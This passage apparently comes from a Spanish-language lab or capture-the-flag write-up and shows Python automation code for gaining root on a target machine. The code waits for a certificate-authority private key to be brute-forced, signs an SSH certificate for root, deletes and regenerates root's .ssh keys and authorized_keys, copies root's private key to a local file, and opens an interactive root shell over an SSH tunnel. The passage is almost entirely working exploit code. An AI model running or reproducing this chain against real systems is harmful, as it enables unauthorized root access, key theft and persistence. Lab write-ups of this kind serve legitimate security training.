 ```python3

	p1.status("Obteniendo la clave privada mediante fuerza bruta")

	while True:

		stdin, stdout, stderr = client.exec_command('cat key_cert &>/dev/null && echo $?')

		key_cert = stdout.read().decode('utf-8').strip()

		if key_cert == "0":
			break

	p1.success("Clave privada descubierta")
	# Con la clave privada de la entidad certifadora ya descubierto, crea el certificado anombre del usuario root
	# y accede con este para finalmente crear el archivo authorized_keys
	log.info("Obteniendo la clave privada del usuario root...")
	client.exec_command('chmod 600 key_cert && ssh-keygen -s key_cert -I 1 -n root_user .ssh/id_rsa.pub && ssh -p 2222 -o StrictHostKeyChecking=no -o CertificateFile=.ssh/id_rsa-cert.pub -i ~/.ssh/id_rsa root@localhost "rm -r .ssh; mkdir .ssh; ssh-keygen -t rsa -f .ssh/id_rsa -N \\"\\"; cp .ssh/id_rsa.pub .ssh/authorized_keys"')

	time.sleep(5)

	stdin, stdout, stderr = client.exec_command('ssh -p 2222 -o StrictHostKeyChecking=no -o CertificateFile=.ssh/id_rsa-cert.pub -i ~/.ssh/id_rsa root@localhost cat .ssh/id_rsa')
	# Guarda el contenido de la clave privada
	priv_key = stdout.read().decode('utf-8')
	# Crea la clave privada para el usuario root
	with open("id_rsa_root", "w") as f:
		f.write(priv_key)

	client.close()
get_cert()
```
Finalmente, con la clave privada ya conseguida, con la función **access_root**, aprovechando el tunel SSH, accede como el usuario root utilizando la clave privada, teniendo ya acceso total al equipo.

```python3
def access_root():
	
	ssh_command = f"ssh -o StrictHostKeyChecking=no root@127.0.0.1 -i id_rsa_root -p 8080"

	ssh_session = pexpect.spawn(ssh_command, timeout=10)

	ssh_session.interact()
access_root()
```
